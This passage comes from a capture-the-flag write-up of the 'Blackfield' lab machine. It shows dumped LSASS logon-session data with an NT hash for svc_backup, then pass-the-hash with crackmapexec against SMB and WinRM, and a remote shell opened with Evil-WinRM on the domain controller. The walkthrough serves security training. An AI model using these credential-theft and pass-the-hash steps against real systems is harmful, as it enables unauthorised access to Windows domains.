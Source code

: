                     username svc_backup
                    domainname BLACKFIELD
                    password None
                                                              
    == LogonSession ==                                  
    authentication_id 365835 (5950b)
    session_id 2
    username UMFD-2
    domainname Font Driver Host
    logon_server                                        
    logon_time 2020-02-23T17:59:38.218491+00:00                                                                                                                                                                                                
    sid S-1-5-96-0-2
    ...[snip]...
    

There are 23 different logon sessions in the data (only the first 1.5 shown
above). The first one has the most useful bit of information, the NT hash for
svc_backup.

### Shell over WinRM

#### crackmapexec

The hash definitely works for SMB:

    
    
    root@kali# crackmapexec smb 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
    SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
    SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\svc_backup 9658d1d1dcd9250115e2205d9f48400d  
    

When I checked for WinRM, `Pwn3d!` as well:

    
    
    root@kali# crackmapexec winrm 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
    WINRM       10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
    WINRM       10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
    WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
    

#### Evil-WinRM

[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) provides a shell:

    
    
    root@kali# evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
    
    Evil-WinRM shell v2.3
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\svc_backup\Documents> 
    